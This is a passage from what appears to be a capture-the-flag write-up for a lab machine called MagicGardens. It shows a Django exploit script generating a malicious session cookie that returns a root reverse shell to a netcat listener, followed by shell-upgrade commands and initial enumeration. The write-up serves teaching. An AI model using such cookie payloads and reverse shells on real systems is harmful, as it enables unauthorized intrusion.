 Running this prints the cookie and then hangs:

```

(venv) oxdf@hacky$ python exploit_django.py magicgardens.htb 10.10.14.6 443
[+] Generated malicious cookie: .eJxNUD1PwzAQbYdWFBUh8QsytTDgxI7TNkuF2FngB0T2xSHuR1zFDtABiYXNW4__S9KC1NMN9z50T3pfg59Vv3ecT7z1F41VdSW2Cv1ga2q3Rz-0TrjGtsSLE0WBfvSubZlttHXoe-jHRwimqZyqsRz6EYjanfQWjY_oTL7KROPKrAvKdI6-z9DfnHFSwFpVrXCXr0T1agiYytVaks5C_lRLnkyuNo__3uuzB6WwJfoHmkDBinlKYxUlnCm1YJBGUnIqipQykSyiWQxFMocZlZLJSLGYK05BzmMOaYr-0inrwJi17urYGas_ujr21qktHtBT2SYF9xBMT4cOlpMgzNVb6GAX0oh0y8ks5DwOouWETvEbn7Ehvwv8g64:1tf05O:36KoJRVw6IGoYeSGsNuSouYC6ZkTXxw7v6ZzdejDfk0

```

At `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.9 33824
bash: cannot set terminal process group (16): Inappropriate ioctl for device
bash: no job control in this shell
root@5e5026ac6a81:/usr/src/app# 

```

I’ll upgrade the shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

root@5e5026ac6a81:/usr/src/app# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@5e5026ac6a81:/usr/src/app# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@5e5026ac6a81:/usr/src/app#

```

## Shell as root

### Enumeration

Looking around the filesystem, it very much matches up with what I got from the Docker Registry.

The shell is in the `/usr/src/app` directory where the Django application is:

```

root@5e5026ac6a81:/usr/src/app# ls
app         entrypoint.sh  media             static
db.sqlite3  manage.py      requirements.txt  store

```
